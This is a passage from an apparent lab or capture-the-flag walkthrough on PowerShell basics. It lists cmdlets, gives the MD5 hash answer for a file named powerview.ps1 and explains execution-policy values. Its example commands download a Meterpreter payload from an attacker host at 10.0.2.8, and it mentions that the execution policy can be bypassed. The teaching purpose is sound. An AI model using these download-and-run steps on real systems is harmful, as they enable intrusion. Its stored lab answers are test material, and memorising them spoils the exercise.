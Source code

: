 `(command) | Export-Csv` - Exports the Previously piped command into a .CSV file that may be easier to read.

`Get-Content` - Shows the contents of a file. Similar to the `cat` command on linux.

`Copy-Item` - Copies and item

`Move-Item` - Moves and item

`Get-FileHash` - Obtains file hash of specified file

### Question 1: What is the MD5 hash value of the file on Walter's desktop?

`501570FFBA7FACE69D61DA1A0843E89A` - `Get-FileHash -Algorithm MD5 .\Desktop\powerview.ps1` will give us the&#x20;

![](<../../.gitbook/assets/image (93) (1).png>)

## Task 3

### Downloading files

There are multiple ways to download files from a server using PowerShell. _**One**_ of the quickest ways is using `WebClient` and `DownloadFile`.

* `(New-Object System.Net.WebClient)DownloadFile('URL/File', 'Output-File')`
  * Example: `(New-Object System.Net.WebClient)DownloadFile('http://10.0.2.8/meterpreter-64.ps1', 'meterpreter.ps1')`

This will connect to the  host 10.0.2.8 and download the`meterpreter-64.ps1` file. The file is then saved as “`meterpreter.ps1`”

Another method is by using `Invoke-WebRequest`

* `Invoke-WebRequest "URL/File" -OutFile "File"`
  * `Invoke-WebRequest "http://10.0.2.8/meterpreter-64.ps1" -Outfile "meterpreter.ps1"`

### Execution Policies

Once we have the file downloaded, we can run the file, but we may run into an `ExecutionPolicy` issue. Microsoft has stated _ExecutionPolicy_ is NOT a security feature. but it functions as an added safety measure and can be bypassed by the user.

The current state of the ExecutionPolicy configuration can be seen using “`Get-ExecutionPolicy -list`”

Execution policies can have seven different values:

* `AllSigned` - Scripts can run but require all scripts to be signed by a trusted publisher.
* `Bypass` - All scripts can run, and no warnings or prompts will be displayed.
* `Default` - This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.
* `RemoteSigned` - Scripts can run, and this does not require local scripts to be digitally signed.
* `Restricted` - The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.
* `Undefined` - This shows that no specific execution policy was set. This means default execution policies will be enforced.
* `Unrestricted` - Most scripts will run.
